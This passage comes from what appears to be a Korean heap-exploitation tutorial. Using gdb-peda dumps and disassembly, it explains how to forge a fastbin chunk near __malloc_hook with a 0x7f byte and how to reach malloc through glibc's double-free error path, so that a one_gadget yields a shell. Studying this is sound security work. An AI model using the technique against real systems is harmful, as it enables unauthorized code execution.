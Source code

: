 이번에는 몇 개의 값이 채워져 있는 것이 보인다. 여기서 주목할 것은 `0x7ffff7dd1af5`에 있는 `0x7f`라는 값이다. fastbin의 size check를 통과할 수 있는 값이기 때문에 이 부분에 fake chunk를 할당받을 수 있다. 그러면 청크의 시작 주소는 `0x7ffff7dd1aed`가 될 것이다.

```bash
gdb-peda$ x/20gx 0x7ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0xfff7a9283000007f	0x000000000000007f
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b4d <main_arena+45>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b6d <main_arena+77>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b7d <main_arena+93>:	0x0000000000000000	0x0000000000000000
```

malloc hook을 이용한 방법으로는, glibc malloc에서 오류가 발생했을 때의 메커니즘을 이용하는 것이 있다. `free()` 호출 중에 잘못된 인자(예를 들어 직전에 free된 청크의 주소)가 전달되었을 때, glibc는 오류를 내고 메시지를 출력한다.

```bash
[-------------------------------------code-------------------------------------]
   0x7ffff7def5df <_dl_load_cache_lookup+1359>:	mov    rdi,rcx
   0x7ffff7def5e2 <_dl_load_cache_lookup+1362>:	call   0x7ffff7df4ea0 <memcpy>
   0x7ffff7def5e7 <_dl_load_cache_lookup+1367>:	mov    rdi,rax
=> 0x7ffff7def5ea <_dl_load_cache_lookup+1370>:	call   0x7ffff7df3ec0 <__strdup>
   0x7ffff7def5ef <_dl_load_cache_lookup+1375>:	lea    rsp,[rbp-0x28]
   0x7ffff7def5f3 <_dl_load_cache_lookup+1379>:	pop    rbx
   0x7ffff7def5f4 <_dl_load_cache_lookup+1380>:	pop    r12
   0x7ffff7def5f6 <_dl_load_cache_lookup+1382>:	pop    r13
Guessed arguments:
arg[0]: 0x7fffffffcae0 ("/lib/x86_64-linux-gnu/libgcc_s.so.1")
```

같은 청크를 연속으로 free시키고 한 줄씩 코드를 실행시키면서(엔터 키를 몇백 번은 쳐야 한다. 이런 짓은 직접 하지 말자.) 내부 함수들을 관찰해 보면, `strdup()`을 호출하는 코드가 있다.

```bash
[-------------------------------------code-------------------------------------]
   0x7ffff7df3ec9 <__strdup+9>:	call   0x7ffff7df3f10 <strlen>
   0x7ffff7df3ece <__strdup+14>:	lea    rbx,[rax+0x1]
   0x7ffff7df3ed2 <__strdup+18>:	mov    rdi,rbx
=> 0x7ffff7df3ed5 <__strdup+21>:	call   0x7ffff7dd7a80 <malloc@plt>
   0x7ffff7df3eda <__strdup+26>:	test   rax,rax
   0x7ffff7df3edd <__strdup+29>:	je     0x7ffff7df3ef8 <__strdup+56>
   0x7ffff7df3edf <__strdup+31>:	add    rsp,0x8
   0x7ffff7df3ee3 <__strdup+35>:	mov    rdx,rbx
Guessed arguments:
arg[0]: 0x24 ('$')
```

그리고 `strdup()`의 내부에는 `malloc()`을 호출하는 코드가 있다. 이때 malloc hook에 one gadget의 주소를 넣어 두면 쉘을 획득할 수 있을 것이다.

> one gadget은 특정 조건을 만족시키면 그 가젯 하나만으로 쉘을 획득할 수 있는 가젯이다.

---